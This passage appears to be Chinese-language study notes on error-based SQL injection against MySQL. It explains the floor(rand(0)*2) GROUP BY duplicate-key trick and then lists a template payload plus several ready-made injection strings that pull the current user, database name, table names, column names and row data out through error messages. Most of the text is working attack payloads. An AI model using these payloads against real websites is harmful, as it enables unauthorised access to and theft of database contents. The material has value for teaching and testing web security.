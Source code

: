![image-20220220002950104](../../images/image-20220220002950104.png)　

那么最终的payload是：

```
' union select 1 from (select count(*),concat((slelect语句),floor(rand(0)*2))x from "一个很大的表" group by x)a--+
```

这里表示，按照x分组，x分组为`floor(rand(0)*2`产生的随机值即0和1。因为rand()函数会因为表有很多行而执行多次，产生多个0和1。

所以，当在group by对其进行分组的时候，会不断的产生新分组，当其反复执行，发先分组1已结存在时，就有会报错。

```
' union select 1 from (select count(*),concat((select user()),floor(rand(0)*2))x from information_schema.tables group by x)a--+

' union select 1 from (select count(*),concat((select user())," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select database())," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1) ," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select column_name from information_schema.columns where table_name="TABLE_NAME" limit 0,1) ," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select COLUMN_NAME from TABLE_NAME limit 0,1) ," ",floor(rand(0)*2))x from information_schema.tables group by x)a
```